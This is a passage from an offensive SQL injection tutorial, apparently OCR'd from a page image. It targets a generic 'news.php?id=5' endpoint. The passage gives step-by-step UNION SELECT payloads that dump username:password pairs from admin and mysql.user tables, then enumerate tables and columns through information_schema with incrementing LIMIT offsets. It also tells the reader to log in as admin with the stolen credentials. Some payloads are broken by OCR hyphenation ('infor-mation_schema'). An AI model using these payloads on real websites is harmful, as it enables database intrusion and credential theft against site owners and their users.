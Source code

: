 ```none
http://server/news.php?id=5 union all select 1,concat(username,char(58), password),3 from admin/*
```

Now we get displayed username:password on screen, i.e admin:admin or admin:somehash when you have this, you can log in like admin or some superuser. If can't guess the right table name, you can always try "mysql.user", as per the following example:

```none
http://server/news.php?id=5 union all select 1,concat(user,0x3a,password),3 from mysql.user/*
```

**MySQL 5**

For this we need **"information_schema"** table. It contains all tables and columns architecture of the database. To get the tables we use **"table_name"** and **"information_schema.tables"**.

**Example:**

```none
http://server/news.php?id=5 union all select 1,table_name,3 from information_schema.tables/*
```

Here we replace the number 2 with **"table_name"** to get the first table from **"information_schema"**.tables displayed on the screen. Furthermore, we will need to add LIMIT to the end of the query to list out al tables.

**Example:**

```none
http://server/news.php?id=5 union all select 1,table_name,3 from infor-mation_schema.tables limit 0,1/*
```

**NOTE:** That we put 0,1 (To get 1 result starting from the 0th) now to view the second table, we change "limit 0,1" to "limit 1,1".

**Example:**

```none
http://server/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 1,1/*
```

The second table is displayed. If you want to do the same for the third table let’s move on using: "limit 2,1"

**Example:**

```none
http://server/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 2,1/*
```

Keep incrementing until you get some useful like db_admin, poll_user, auth, auth_user, etc...

To get the column names the method is similar. Here we use **"column_name"** and **"infor-mation_schema.columns"** as per the following example:

```none
http://server/news.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 0,1/*
```
